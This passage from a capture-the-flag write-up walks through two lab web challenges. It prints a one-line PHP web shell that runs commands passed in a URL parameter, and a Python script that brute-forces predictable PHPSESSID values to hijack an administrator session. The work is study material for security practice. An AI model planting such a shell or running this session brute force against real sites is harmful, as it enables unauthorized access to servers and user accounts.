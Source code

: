 Now all that was left to do was modify the PHP script so I could execute commands on the server:

```php
<?php passthru($_GET['cmd']); ?>
```

Using the same technique to upload the file as last time I then navigated it and found the flag file sitting just one directory above the web server root.

![Success](images/web008/success.png)

## WEB009
The task for this challenge was to gain access to an administrator account on the site pointed to by the challenge in order to recover the flag, a regular user account had been provided which I used to gain some useful information on how the application managed user authentication. Sure enough after logging in to the site and having a poke around I noticed that the application seemed to have overridden the ``PHPSESSID`` cookie which is commonly used by PHP to deal with session management, typically a ``PHPSESSID`` would contain a value that looks a bit like this ``3l7r1od0ee30c2ap4n0en6l8r4`` in this case however it was set to ``98``. This sort of modification could mean that a vulnerability had been introduced by a customised session management mechanism, this one turned out to be vulnerable to session hijacking. After logging out and back in a few times and poking around a little more just in case, I remembered something that was written on the site's homepage:

```
Numbers are great! Our favourite is 937
```

Without anywhere else to start I decided to manually set the cookie to ``937`` using Firefox's developer console just in case there was an administrator account locked to that session ID:

```javascript
document.cookie = 'PHPSESSID=937'
```

Unfortunately that didn't do anything so instead I decided to test every possible session ID between 0 and 937 looking for an administrator session, for that to work I needed a way of testing the resulting page so I decided to use the customer number, if that number wasn't present in the content of a returned page then I would have found something of interest, with all that in place I put together a Python script to run the tests.

```python
import requests

url = 'http://192.168.13.44:3005/account.php';

for i in range(938):
  cookies = dict(PHPSESSID=str(i))
  response = requests.get(url, cookies=cookies)

  if '8473894028734' not in response.text:
    print('Session ID:', i)
    print(response.text)
```
